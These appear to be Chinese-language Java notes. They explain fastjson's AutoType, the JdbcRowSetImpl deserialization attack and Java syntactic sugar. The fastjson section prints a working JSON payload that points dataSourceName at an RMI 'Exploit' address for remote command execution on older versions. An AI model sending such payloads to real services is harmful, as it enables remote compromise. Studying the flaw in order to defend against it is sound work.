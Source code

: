 那么有什么办法解决这个问题呢，fastjson引入了AutoType，即在序列化的时候，把原始类型记录下来。使用autotype注解之后的json对象如下：

```java
{
    "@type":"com.hollis.lab.fastjson.test.Store",
    "fruit":{
        "@type":"com.hollis.lab.fastjson.test.Apple",
        "price":0.5
    },
    "name":"Hollis"
}
```

可以看到fastjson使用@type属性指定了这个类的全路径，方便在反序列化的时候定位到具体类型。

这就是AutoType，以及fastjson中引入AutoType的原因。

因为有了autoType功能，那么fastjson在对JSON字符串进行反序列化的时候，就会读取@type到内容，试图把JSON内容反序列化成这个对象，并且会调用这个类的setter方法。

那么就可以利用这个特性，自己构造一个JSON字符串，并且使用@type指定一个自己想要使用的攻击类库。

举个例子，黑客比较常用的攻击类库是com.sun.rowset.JdbcRowSetImpl，这是sun官方提供的一个类库，这个类的dataSourceName支持传入一个rmi的源，当解析这个uri的时候，就会支持rmi远程调用，去指定的rmi地址中去调用方法。

而fastjson在反序列化时会调用目标类的setter方法，那么如果黑客在JdbcRowSetImpl的dataSourceName中设置了一个想要执行的命令，那么就会导致很严重的后果。

如通过以下方式定一个JSON串，即可实现远程命令执行（在早期版本中，新版本中JdbcRowSetImpl已经被加了黑名单）

```java
{"@type":"com.sun.rowset.JdbcRowSetImpl",
"dataSourceName":"rmi://localhost:1099/Exploit",
"autoCommit":true}
```

### IO流

java IO流分为字符流和字节流：InputStreamReader/OutputStreamWriter，InputStream/OutputStream

### 语法糖

java语法糖包括：枚举、自动装箱、自动拆箱、可变长参数、泛型、switch字符串、条件编译、数值字面量中有下划线、增强for循环(for(aa  a: collection){})、try-with-resource、lambda表达式

switch本来不支持字符串，只支持short、char、int、long整数类型和枚举类型，且都会转换成整数类型进行判断。java7开始支持String，后面也支持了Character, Byte, Short, Integer。字符串类型的switch会被转换成hashcode比较+equals比较，性能上比基本数据类型差一点。

泛型是在编译期被擦除的类型，等到真正调用时才传入具体的类，调用处使用父类来接收。

一个Iterator\<A> xi = xs.iterator();会被编译成Iterator xi = xs.iterator();

一个A w = xi.next();会被编译成Comparable w = (Comparable)xi.next();

可变长参数类似String... args，在编译后转换成对应类型的数组String args[]。

自动装/拆箱调用包装类的valueOf()和xxxValue()。

枚举类会被转换成泛型类继承enum类，在内部写好对应变量的赋值逻辑。

条件编译是指对if等判断语句中常量判断计算为false的部分不编译进去。
